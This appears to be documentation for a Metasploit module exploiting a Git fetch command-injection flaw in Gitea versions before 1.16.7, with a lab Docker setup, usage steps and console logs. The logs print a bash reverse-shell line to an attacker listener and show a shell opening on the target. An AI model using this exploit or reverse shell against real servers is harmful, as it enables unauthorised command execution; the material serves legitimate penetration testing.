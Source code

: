 ## Vulnerable Application

[Gitea](https://gitea.io/) is a painless self-hosted Git service community
managed lightweight code hosting solution written in Go.

This module has been tested successfully on Gitea versions:
* 1.16.6 (Docker)

### Description

This module exploits Git fetch command in Gitea repository migration process that leads to a remote command execution on the system.
This vulnerability affect Gitea before 1.16.7 version.

The module will automatically use `cmd/unix/reverse_bash` payload and unix
target.

The migration process require valid Git repository address so the module will
use the Gitea target itself by creating a temporary repository. This scenario
won't work with [Gitea default configuration](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini)
because `ALLOW_LOCALNETWORKS` is disabled. However, it will be ignored when
[ALLOWED_DOMAINS](https://github.com/go-gitea/gitea/blob/main/custom/conf/app.example.ini#L2289)
is set, but it must be set to all domain with `*` for this scenario to work.

### Source and Installers

* [Source Code Repository](https://github.com/go-gitea/gitea/)
* [Installers](https://dl.gitea.io/gitea/1.16.6)
* [Docker](https://docs.gitea.io/en-us/install-with-docker/)

### Docker installation
1. create `docker-compose.yml` file
```
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.16.6
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```
2. run `docker-compose up`
3. append `ALLOW_LOCALNETWORKS` in the configuration file.
```
:~$ cat << EOF >> gitea/gitea/conf/app.ini
> [migrations]
> ALLOW_LOCALNETWORKS = true
> EOF
```
4. Navigate to the localhost port 3000 and finish the installation. Note that
   the first registered user will automatically become administrator so make
   sure to set the administrator username and password upon installation.

## Verification Steps

1. Navigate to `/user/sign_up` and register normal user
2. Do: `use unix/webapp/gitea_git_fetch_rce`
3. Do: `set RHOSTS [ips]`
4. Do: `set LHOST [lhost]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The Gitea valid username to authenticate

### USERNAME
The Gitea valid password to authenticate

### HTTPDELAY
Number of seconds the web server will wait to deliver payload (default: 12)

## Scenarios
### Successful exploitation of Gitea 1.16.6 on Docker

```
msf6 > use unix/webapp/gitea_git_fetch_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set USERNAME msf
USERNAME => msf
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set PASSWORD qwerty
PASSWORD => qwerty
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > run

[+] bash -c '0<&180-;exec 180<>/dev/tcp/172.17.0.1/4444;sh <&180 >&180 2>&180'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/gitea_git_fetch_rce) >
[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/msf/eqESXv4b
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/eqESXv4b/topics
[*] Creating repository "7vX49Gy2Rui5WHQ"
[+] Repository created
[*] Migrating repository
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:50212) at 2022-09-15 18:51:31 +0700
[*] Cleanup: removing repository "7vX49Gy2Rui5WHQ"
[*] Cleanup: removing repository "eqESXv4b"
[*] Server stopped.

msf6 exploit(unix/webapp/gitea_git_fetch_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
```

### Failed exploitation due to migration settings

```
msf6 > use unix/webapp/gitea_git_fetch_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set USERNAME msf
USERNAME => msf
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set PASSWORD qwerty
PASSWORD => qwerty
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/gitea_git_fetch_rce) > run

[+] bash -c '0<&130-;exec 130<>/dev/tcp/172.17.0.1/4444;sh <&130 >&130 2>&130'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/gitea_git_fetch_rce) >
[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://172.17.0.1:8080/msf/XG1AhW3
[*] Server started.
[*] Adding hardcoded uri /api/v1/version
[*] Adding hardcoded uri /api/v1/settings/api
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3/pulls
[*] Adding hardcoded uri /api/v1/repos/msf/XG1AhW3/topics
[*] Creating repository "7A4o5kYw3Y"
[+] Repository created
[*] Migrating repository
[*] Cleanup: removing repository "7A4o5kYw3Y"
[*] Server stopped.
[-] Exploit aborted due to failure: unexpected-reply: Unable to migrate repo:
You can not import from disallowed hosts, please ask the admin to check
ALLOWED_DOMAINS/ALLOW_LOCALNETWORKS/BLOCKED_DOMAINS settings.
```
